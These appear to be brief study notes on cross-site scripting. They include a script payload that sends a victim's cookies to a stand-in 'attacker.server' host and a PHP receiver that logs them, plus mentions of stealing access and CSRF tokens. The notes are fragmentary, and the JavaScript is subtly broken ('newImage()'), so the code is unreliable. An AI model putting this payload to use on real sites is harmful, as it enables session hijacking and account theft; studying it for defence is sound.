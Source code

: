 ## Essence
- Within certain restrictions, driving victim to execute any JavaScript.

## Exploit
- obtain sensitive information
  - cookie
```
<script>newImage().src="http://attacker.server/get.php?cookie="+document.cookie;</script>

<?php
$ck =$_GET['cookie'];
error_log("$ck\n",3,"cookie.txt");
?>
```
  - token: AccessToken, CSRFToken
```
function getcsrftoken(){
 fetch()
}
```
- request certain special service
  - Combine with CSRF: admin

- 
